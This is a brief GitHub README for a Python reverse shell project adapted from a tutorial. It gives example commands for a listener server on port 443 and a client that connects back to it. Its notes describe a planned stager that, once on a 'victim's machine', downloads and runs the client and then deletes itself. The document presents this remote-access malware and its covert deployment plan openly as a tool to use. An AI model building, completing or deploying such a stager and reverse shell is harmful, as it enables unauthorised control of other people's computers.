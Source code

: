 # BasicReverseShell
I followed a tutorial and came up with a slightly modified version of the Python server/client. See "desc.txt"


### How to use

- Server (example)
```
python3 server.py -i -H 0.0.0.0 -p 443 -b (1024 * 998) -s "<sep>" -t 5 -p "> "
```

- Client (example -- On a test machine but, the stager will auto run the client when the project is complete)
```
python3 client.py 127.0.0.1
```

### Notes
- The client is modifiable along with the server
- The stager should be able to, once it is on the victims machine, download the client, run the client from a specific directory, auto-terminate stager
